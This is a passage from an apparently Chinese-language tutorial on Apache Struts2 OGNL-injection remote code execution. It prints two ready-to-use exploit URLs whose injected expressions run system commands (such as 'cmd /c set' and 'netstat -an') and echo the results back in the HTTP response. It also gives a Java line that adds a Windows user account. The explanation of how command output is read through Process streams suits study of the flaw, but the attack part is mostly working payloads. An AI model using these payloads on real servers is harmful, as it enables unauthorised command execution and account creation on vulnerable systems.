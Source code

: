 ```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[1000],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result),%23response.close()}&cmd=cmd%20/c%20set 
```

POC6:

```
http://localhost/struts2-blank/example/HelloWorld.action?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'netstat','-an'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()} 
```

其实在 Java 里面要去执行一个命令的方式都是一样的，简单的静态调用方式

```
java.lang.Runtime.getRuntime().exec("net user selina 123 /add"); 
```

就可以执行任意命令了。Exec 执行后返回的类型是 java.lang.Process。Process 是一个抽象类，`final class ProcessImpl extends Process`也是 Process 的具体实现。而命令执行后返回的 Process 可以通过

```
public OutputStream getOutputStream()
public InputStream getInputStream() 
```

直接输入输出流，拿到 InputStream 之后直接读取就能够获取到命令执行的结果了。而在 Ognl 里面不能够用正常的方式去读取流，而多是用 DataInputStream 的 readFully 或 BufferedReader 的 read 方法全部读取或者按 byte 读取的。因为可能会读取到半个中文字符，所以可能会存在乱码问题，自定义每次要读取的大小就可以了。POC 当中的/c 不是必须的，执行 dir 之类的命令可以加上。

```
Process java.lang.Runtime.exec(String command) throws IOException 
```

![2013072423412230696_png.jpg](img/img28_u5_jpg.jpg)
